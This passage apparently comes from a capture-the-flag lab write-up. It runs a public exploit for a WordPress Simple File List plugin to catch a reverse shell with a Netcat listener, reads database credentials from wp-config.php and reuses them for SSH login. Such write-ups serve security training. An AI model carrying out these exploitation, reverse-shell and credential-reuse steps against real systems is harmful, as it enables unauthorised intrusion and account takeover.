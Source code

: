 Before running the exploit, we'll set up a Netcat listener.

```
kali@kali:~$ sudo nc -lvnp 80
listening on [any] 80 ...
```

With the listener running, we'll execute the exploit.

```
kali@kali:~$ python3 48979.py http://192.168.120.55
[ ] File 9357.png generated with password: b3824ae2f451a1801fab81d9ff080139
[ ] File uploaded at http://192.168.120.55/wp-content/uploads/simple-file-list/9357.png
[ ] File moved to http://192.168.120.55/wp-content/uploads/simple-file-list/9357.php
[+] Exploit seem to work.
[*] Confirmning ...
```

Our Netcat listener should have caught the reverse shell.

```
kali@kali:~$ sudo nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.118.8] from (UNKNOWN) [192.168.120.55] 54012
bash: cannot set terminal process group (352): Inappropriate ioctl for device
bash: no job control in this shell
[http@nukem simple-file-list]$
```

### Password Reuse

As we begin to enumerate, we identify a _commander_ user in the home directory. After careful enumeration, we discover the password for the MySQL server:

```
[http@nukem http]$ cat wp-config.php
cat wp-config.php
...
/** MySQL database username */
define( 'DB_USER', 'commander' );

/** MySQL database password */
define( 'DB_PASSWORD', 'CommanderKeenVorticons1990' );
...
```

Let's test these credentials.

```
$ ssh commander@192.168.120.55
The authenticity of host '192.168.120.55 (192.168.120.55)' can't be established.
ECDSA key fingerprint is SHA256:12pFiOx1TBYX+6LlFEj3HR0305rPpXDWLKkdg1JLYSM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.120.55' (ECDSA) to the list of known hosts.
commander@192.168.120.55's password: CommanderKeenVorticons1990
[commander@nukem ~]$ 
```
